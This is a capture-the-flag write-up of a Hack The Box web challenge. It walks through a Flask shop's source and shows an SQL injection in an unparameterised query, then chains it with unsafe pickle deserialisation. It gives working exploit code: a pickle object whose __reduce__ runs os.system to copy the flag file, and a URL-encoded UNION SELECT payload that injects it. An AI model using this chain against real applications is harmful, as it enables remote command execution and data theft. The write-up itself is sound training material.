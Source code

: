 HTB Challenge

We get a ton of files, all seeming to be setup for a docker container. We also have an active instance of the whole webapp. As typical for the web category.

## Initial Enumeration

First, lets look at the important files. After having a quick look, it seems to be `routes.py` in `application/blueprints`, and `app.py`, `config.py`, `database.py` and `models.py` in `application`.

#### `routes.py`
```python
from flask import Blueprint, render_template
from application.models import shop

web = Blueprint('web', __name__)

@web.route('/')
def index():
    return render_template('index.html', products=shop.all_products())

@web.route('/view/<product_id>')
def product_details(product_id):
    return render_template('item.html', product=shop.select_by_id(product_id))
```

This seems to be very basic, and the only input seems to be `product_details`. it passes it to `shop` in `models.py`. it also calls `render_template`

#### `models.py`
Here we can see two functions, lets focus on one right now.
```python
@staticmethod
def select_by_id(product_id):
	return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)
```

This is a plain function string, which does no input checking, and simply replaces product_id with whatever is placed in this function. This is a classic SQLi, where we can inject whatever we want. This seems to be the beginning of the path, but our flag is not in the database. Also, this calls a function `query_db` from `database.py`.

#### `database.py`
```python
def query_db(query, args=(), one=False):
    with app.app.app_context():
        cur = get_db().execute(query, args)
        rv = [dict((cur.description[idx][0], value) \
            for idx, value in enumerate(row)) for row in cur.fetchall()]
        return (next(iter(rv[0].values())) if rv else None) if one else rv
```
This will get the database, and execute the query. Then, it should return the first object it finds. Meaning, if we can get our own pickled object into the database, we can exploit it in multiple ways.

Its also worth mentioning, theres a function that is ran at the beginning of the program.

```python
def migrate_db():
    items = [
        Item('Pickle Shirt', 'Get our new pickle shirt!', '23', '/static/images/pickle_shirt.jpg'),
        Item('Pickle Shirt 2', 'Get our (second) new pickle shirt!', '27', '/static/images/pickle_shirt2.jpg'),
        Item('Dill Pickle Jar', 'Literally just a pickle', '1337', '/static/images/pickle.jpg'),
        Item('Branston Pickle', 'Does this even fit on our store?!?!', '7.30', '/static/images/branston_pickle.jpg'),
        Item("pwned","seriously pwned","13.37","/../flag.txt")
    ]
    
    with open('schema.sql', mode='r') as f:
        shop = map(lambda x: base64.b64encode(pickle.dumps(x)).decode(), items)
        get_db().cursor().executescript(f.read().format(*list(shop)))
```

So any object in the database will be a pickle.
#### `app.py`
```python
@app.template_filter('pickle')
def pickle_loads(s):
	return pickle.loads(base64.b64decode(s))
```

This will decode any pickle it is given. it seems to not be used anywhere, but how else would the pickles be decoded?

## Attack

Now we have the plan in place, exploit the SQLi, load our own pickle onto the database, and our pickle will be an item that serves the flag.

Then, create a malicious item to get the flag.
```python
class Item:
    def __reduce__(self):
        return os.system, ("cp flag.txt application/static/flag.txt",)
malitem = Item()
```

Then, pickle and base64 the item.
```python
malpickle = base64.b64encode(pickle.dumps(malitem)).decode()
print(malpickle)
```

From this, we inject the malpickle into the statement with union select. Make sure to urlencode the statement!

```python
sqli = "' UNION SELECT '" + malpickle + "' ; --"

print(urllib.parse.quote(sqli))
```

Give this to `/view/[statement]` and. there is a blank page. good sign. now lets go to `/static/flag.txt`

And that is the flag!

https://www.hackthebox.com/achievement/challenge/158887/395